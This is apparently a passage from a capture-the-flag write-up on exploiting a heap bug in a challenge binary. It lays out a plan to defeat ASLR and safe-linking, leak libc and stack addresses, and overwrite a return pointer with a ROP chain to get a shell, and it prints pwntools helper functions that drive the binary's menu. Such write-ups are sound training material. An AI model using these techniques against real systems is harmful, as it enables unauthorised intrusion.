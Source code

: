 
## The exploitation begins

With all that, we can begin thinking about how we will exploit this. I will be attempting to pop a shell. My high level approach will
consist of:
- Leak the ASLR bits from the heap to cope with the fact that their version of libc has safe linking. Note that we will not be able to
  abuse the cheat option to do this as we do not have arbitrary read write yet to set that .bss variable back to zero.
- Once we have the ASLR bits, we will be able to cope with safe-linking, which will let us cheat and continue to race anyway. We will take
  advantage of this fact to leak an address from LIBC.
- After obtaining the base address of LIBC, we will be able to locate the stack with another leak. I will use this leak to find a return
  pointer we can overwrite with a ROP chain. We should have plenty of gadgets to work with since we should have a LIBC leak.
- Last, overwrite the return pointer and use ROP to pop a shell.

Each of these steps will be explained further in detail below.

### Boilerplace

Just to get the obvious out of the way and keep the script somewhat clean, here is the boilerplate pwntools instantiation of the
process and ELF object, in addition to some functions which we can use to easily pick one of the options given to us by the binary.

```
from pwn import *

p = process('./vuln')
e = ELF('./vuln')

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

def cheat(index, name, newspot):
┊   p.sendline(b'0')
┊   p.sendline(str(index).encode())
┊   p.sendline(name)
┊   p.sendline(str(newspot).encode())

def add_horse(index, length, name):
┊   p.sendline(b'1')
┊   p.sendline(str(index).encode())
┊   p.sendline(str(length).encode())
┊   p.sendline(name)

def remove_horse(index):
┊   p.sendline(b'2')
┊   p.sendline(str(index).encode())

def race():
┊   p.sendline(b'3')
```
